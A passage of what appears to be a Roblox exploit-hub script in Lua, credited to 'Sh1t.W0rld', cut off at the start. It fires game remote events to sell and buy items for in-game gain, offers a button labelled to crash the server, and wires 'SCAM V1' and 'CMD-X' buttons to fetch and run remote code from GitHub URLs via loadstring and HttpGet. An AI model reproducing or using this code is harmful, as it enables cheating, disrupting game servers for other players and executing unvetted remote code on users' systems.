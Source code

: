 		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Amogus Rainbow"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	local Section = Tab:NewSection("Click on Crash server when u are rich !!!!")
	Section:NewButton("Click her to crash and get ur items back", "Click her to crash and get ur items back", function()
		local args = {
			[1] = "Jet"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	local Tab     = Window:NewTab("Owner")
	local Section = Tab:NewSection("Made By Sh1t.W0rld")
	local Section = Tab:NewSection("ADD ME ON TIKTOK Sh1t.W0rld")
end)



ScamV1.Name = "Scam V1"
ScamV1.Parent = main
ScamV1.BackgroundColor3 = Color3.fromRGB(132, 110, 255)
ScamV1.BorderSizePixel = 0
ScamV1.Position = UDim2.new(0.672489047, 0, 0.190735698, 0)
ScamV1.Size = UDim2.new(0, 130, 0, 283)
ScamV1.Font = Enum.Font.FredokaOne
ScamV1.Text = "SCAM V1"
ScamV1.TextColor3 = Color3.fromRGB(0, 0, 0)
ScamV1.TextSize = 25.000
ScamV1.MouseButton1Down:connect(function()
	loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)


cmdx.Name = "cmd-x"
cmdx.Parent = main
cmdx.BackgroundColor3 = Color3.fromRGB(132, 110, 255)
cmdx.BorderSizePixel = 0
cmdx.Position = UDim2.new(0.355895221, 0, 0.190735698, 0)
cmdx.Size = UDim2.new(0, 132, 0, 283)
cmdx.Font = Enum.Font.FredokaOne
cmdx.Text = "CMD-X"
cmdx.TextColor3 = Color3.fromRGB(0, 0, 0)
cmdx.TextSize = 25.000
cmdx.MouseButton1Down:connect(function()
	loadstring(game:HttpGet("https://raw.githubusercontent.com/CMD-X/CMD-X/master/Source", true))()
end)


Title.Name = "Title"
Title.Parent = main
Title.BackgroundColor3 = Color3.fromRGB(186, 179, 255)
Title.Size = UDim2.new(0, 458, 0, 43)
Title.Font = Enum.Font.FredokaOne
Title.Text = "By Sh1t.W0rld"
Title.TextColor3 = Color3.fromRGB(0, 0, 0)
Title.TextSize = 35.000
